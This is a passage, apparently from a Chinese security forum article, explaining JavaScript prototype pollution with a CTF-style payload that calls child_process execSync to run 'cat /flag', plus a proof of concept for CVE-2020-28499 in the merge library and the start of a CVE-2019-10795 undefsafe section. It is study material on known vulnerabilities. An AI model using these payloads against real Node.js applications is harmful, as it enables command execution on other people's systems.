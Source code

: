 clone 实际上也是一样的

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-399d313475f7b81616982d38288e10dd19ed0e40.png)

这里补充一下 JS 中的执行系统命令

```js
t=1;return global.process.mainModule.constructor._load('child_process').execSync('cat /flag').toString()//"}
```

这是我们拼接进原型链污染内执行命令的内容，这里涉及到了 JS 沙箱的绕过，后续单独开一篇学习，[参考文章](https://zhuanlan.zhihu.com/p/58600028)。

### merge.recursiveMerge CVE-2020-28499

此 CVE 影响 2.1.1 以下的 merge 版本

测试代码：

```js
const merge = require('merge');

const payload2 = JSON.parse('{"x": {"__proto__":{"polluted":"yes"}}}');

let obj1 = {x: {y:1}};

console.log("Before : " + obj1.polluted);
merge.recursive(obj1, payload2);
console.log("After : " + obj1.polluted);
console.log("After : " + {}.polluted);
```

结果如下

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-89b0e277d007da642092faf44c59e51157066b8b.png)

原因在于这里，又让我们可以控制键值了

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-c46716c0198c5955a27ce1e8a785439326955b8a.png)

修复

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-fcedf5a841f40ddb9a760a9aad5c513f6c99285f.png)

Undefsafe 模块原型链污染（CVE-2019-10795）
---------------------------------

```js
var object = {
    a: {
        b: {
            c: 1,
            d: [1,2,3],
            e: 'whoami'
        }
    }
};
console.log(object.a.b.e)

console.log(object.a.c.e)
```
